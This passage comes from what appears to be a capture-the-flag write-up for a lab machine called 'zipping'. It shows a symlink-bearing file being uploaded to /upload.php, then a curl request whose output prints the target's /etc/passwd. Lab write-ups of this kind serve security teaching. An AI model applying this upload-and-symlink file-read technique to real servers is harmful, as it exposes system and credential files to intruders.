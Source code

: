 Upload the file to `/upload.php` and take note of where it gets uploaded to:
![zipping](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zipping/1.png)

Using `curl` we can see the contents of the page, which are `/etc/passwd`, because of the symlink. 
```
curl -v 'http://10.10.11.229/uploads/76bdaf66a25127acf651b97d9fda8f7a/zon.pdf'                                                                                                                        [43/249]
*   Trying 10.10.11.229:80...                                                 
* Connected to 10.10.11.229 (10.10.11.229) port 80 (#0)                       
> GET /uploads/76bdaf66a25127acf651b97d9fda8f7a/zon.pdf HTTP/1.1
> Host: 10.10.11.229                                                          
> User-Agent: curl/7.88.1              
> Accept: */*                                                                                                                                                                                
>                                                                                                                                                            
< HTTP/1.1 200 OK                                                             
< Date: Mon, 15 Jan 2024 05:51:39 GMT
< Server: Apache/2.4.54 (Ubuntu)                                              
< Last-Modified: Mon, 15 Jan 2024 05:51:28 GMT                                                           
< ETag: "56d-60ef59adf178a"                                                                   
< Accept-Ranges: bytes                                                        
< Content-Length: 1389                                                        
< Content-Type: application/pdf                                               
<                                                                             
root:x:0:0:root:/root:/bin/bash                                               
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                                                                              
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                          
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                          
sync:x:4:65534:sync:/bin:/bin/sync                                            
games:x:5:60:games:/usr/games:/usr/sbin/nologin                               
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                          
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                             
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                              
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                        
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                      
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                               
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                     
```